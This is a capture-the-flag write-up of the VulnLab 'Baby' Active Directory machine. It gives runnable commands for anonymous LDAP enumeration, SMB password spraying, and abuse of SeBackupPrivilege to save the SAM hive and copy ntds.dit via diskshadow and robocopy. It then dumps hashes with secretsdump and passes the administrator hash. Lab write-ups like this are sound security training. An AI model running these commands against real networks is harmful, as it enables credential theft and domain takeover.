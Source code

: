 ```yaml
---
title: "VulnLab - Baby Writeup"
date: 2023-11-22
tags: ["Vulnlab", "Writeup", "AD"]
---
```

![Baby Thumbnail](featured.png)

This is a write-up of the Baby machine on [VulnLab](https://www.vulnlab.com/) by xct. This box deals with anonymous LDAP enumeration, and exploitation of the SeBackupPrivilege to exfiltrate and crack user hashes.

## User

Hint: `Look into anonymous LDAP Access.`

I started by performing an nmap scan of the machine, and got the following results:

```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-11-15 01:00:52Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-11-15T01:01:42+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2023-11-15T01:01:02+00:00
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2023-07-29T07:48:30
|_Not valid after:  2024-01-28T07:48:30
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-11-15T01:01:04
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

This gives us some helpful information such as the name of the domain and host we're working with (DC=baby,DC=vl), and running services.

### LDAP Enumeration

I utilized nmap to dump information about the domain with `nmap -n -sV --script "ldap* and not brute" -Pn IP`, and ldapsearch to dump the users with `ldapsearch -x -H ldap://IP:389 -b "DC=baby,DC=vl" > ldap-dump.txt` where we found a notable user:

```text
# Teresa Bell, it, baby.vl
dn: CN=Teresa Bell,OU=it,DC=baby,DC=vl
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Teresa Bell
sn: Bell
description: Set initial password to REDACTED
givenName: Teresa
distinguishedName: CN=Teresa Bell,OU=it,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121151108.0Z
whenChanged: 20211121151437.0Z
displayName: Teresa Bell
uSNCreated: 12889
memberOf: CN=it,CN=Users,DC=baby,DC=vl
uSNChanged: 12905
name: Teresa Bell
objectGUID:: EDGXW4JjgEq7+GuyHBu3QQ==
userAccountControl: 66080
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132819812778759642
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWWgQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: Teresa.Bell
sAMAccountType: 805306368
userPrincipalName: Teresa.Bell@baby.vl
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=baby,DC=vl
dSCorePropagationData: 20211121163014.0Z
dSCorePropagationData: 20211121162927.0Z
dSCorePropagationData: 16010101000416.0Z
msDS-SupportedEncryptionTypes: 0
```

Teresa Bell had a password in the description for her user (redacted for walkthrough), but trying to connect with EvilWinRM failed due to not having the correct password, I decided to use CrackMapExec to spray these credentials across the other valid users we pulled from LDAP. 

### SMB Password Spray

Before we're able to spray the password we found we need to build a list of valid users, I did this by parsing the LDAP dump to pull out usernames in a format CME can read with `cat ldap-dump.txt | grep userPrincipalName | awk '{print $2}' | cut -d "@" -f 1`:

```text
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell
Caroline.Robinson
Ian.Walker
```

I used CrackMapExec to perform an SMB password spray against those users with `crackmapexec smb IP -u ./users.txt -p PASSWORD --shares`:

![SMB Password Spray](cme-smb-passwd-spray.png)

From this, we see that the password works on Caroline Robinson's account, but her password needs to be changed.

### Getting the Flag

Before we can login, we have to change the account's password. I utilized smbpasswd for this using `smbpasswd -r IP -U USER`. Next, we can login using EvilWinRM and get the user flag with `evil-winrm -i IP -u Caroline.Robinson -p PASSWORD`:

![User Flag](user-flag.png)

## Root

Hint: `Look at user privileges.`

I started by enumerating the permissions of our Caroline.Robinson user with `whoami /priv`:

![Initial Permissions](initial-privs.png)

### SeBackupPrivilege

Of note is the SeBackupPrivilege allows a user to backup any file on a machine, regardless of permissions. This includes things like the sam and system files which we can feed into secretsdump or mimikatz to extract user hashes. I moved into a directory where the user had write permissions and made copies of the sam and system files to download onto my machine with `reg save hklm\sam c:\Temp\sam` and `reg save hklm\system c:\temp\system`, and downloaded them with smbclient.

I then fed the files into mimikatz and got the following hashes:

![Local Hashes](local-creds.png)

However, when attempting to pass the Administrator hash to login with `evil-winrm -i IP -u 'administrator' -H 'HASH'`, it doesn't work because these are local accounts as opposed to domain accounts. To get the domain administrator hash that we need to log in, we have to use the SeBackupPrivilege to dump the ntds.dit file which is a database containing AD information including user objects. 

### Getting the Flag

We can make a copy of ntds.dit and dump it using diskshadow and robocopy.

I first created the following script to run with diskshadow, saved as `backup.txt`:

```text
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

I ran it with `diskshadow /s backup.txt`, and was able to dump the ntds.dit with `robocopy /b E:\Windows\ntds . ntds.dit`. Feeding those into secretsdump with `impacket-secretsdump -ntds ntds.dit -system system.hive local` we get the domain administrator hash which we can pass to login and get the root flag:

![Root Flag](content/posts/vulnlab/vl-baby/root-flag.png)
